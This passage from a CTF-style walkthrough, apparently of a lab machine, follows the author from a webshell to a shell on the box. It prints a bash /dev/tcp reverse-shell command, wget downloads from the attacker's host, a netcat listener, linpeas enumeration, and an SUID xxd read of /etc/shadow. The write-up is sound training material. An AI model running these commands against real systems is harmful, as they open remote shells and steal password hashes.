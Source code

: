 Next I tried echoing a bash reverse shell into a shell.sh file, but I couldn't get it to create the file using my webshell. <br>
`?cmd=echo "bash -i >& /dev/tcp/myIP/7777 0>&1" > shell.sh` <br>

Then I decided to check if I had access to wget: <br>
> `?cmd=which wget` <br>
> /bin/wget <br>

I do, so let me try to pull down a reverse shell file instead: <br>
`tas@kali$ python3 -m http.server` <br>

> `?cmd=wget http://myIP/shell.sh` <br>
> shell.sh

This works, so now I can try to run it and catch a shell: <br>
`tas@kali$ nc -lnvp 7777` <br>

`?cmd=/bin/bash shell.sh` <br>

And with that, *I'm in*.

The first thing I do is stabilize my shell with python (making sure I caught my revshell with bash, not zsh): <br>
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'` <br>
    
Then I press ctrl+z to background my reverse shell. <br>
```
tas@kali$ stty raw -echo
tas@kali$ fg
# Pressing enter a couple of times..
```
And finally: <br>
`$ export TERM=xterm`

Now with my mostly stable shell, I continue enumerating for a bit, but nothing jumps out at me right away.

Thus, I decided to pull down a copy of [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):
```
www-data@ubuntu$ cd /dev/shm && wget http://myIP/linpeas.sh

www-data@ubuntu$ chmod +x linpeas.sh

www-data@ubuntu$ ./linpeas.sh | tee output.log
```
Linpeas brings to my attention that the xxd binary is owned by root and has the SUID bit set.

![Linpeas Output](https://i.imgur.com/0CWRWgx.png)

Paying a visit to [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I can see that this binary may allow me priveledged reads/writes.

![GTFOBins xxd page](https://i.imgur.com/xoYdwuI.png)

The current goal is the vianka user's password, so lets see if we can read /etc/shadow:
```
www-data@ubuntu$ LFILE=/etc/shadow
www-data@ubuntu$ xxd "$LFILE" | xxd -r
```
